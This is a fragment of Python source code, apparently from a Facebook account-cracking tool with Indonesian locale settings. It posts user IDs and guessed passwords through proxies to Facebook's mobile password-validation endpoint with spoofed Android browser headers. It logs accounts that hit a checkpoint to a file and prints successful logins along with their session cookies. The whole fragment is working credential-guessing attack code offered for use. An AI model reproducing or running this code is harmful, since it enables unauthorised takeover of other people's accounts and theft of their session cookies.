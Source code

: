 			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://m.facebook.com/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}

			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])

			koki+=' m_pixel_ratio=2.625; wd=412x756'

			heade={'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}

			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)

			if "checkpoint" in po.cookies.get_dict().keys():

				#print(f'\r {K}[CP] {idf} | {pw}{N}')     

				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

				akun.append(idf+'|'+pw)

				cp+=1

				break

			elif "c_user" in ses.cookies.get_dict().keys():

				ok+=1

				coki=po.cookies.get_dict()

				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

				print(f'\r{H}[OK] {idf} | {pw}{N}')
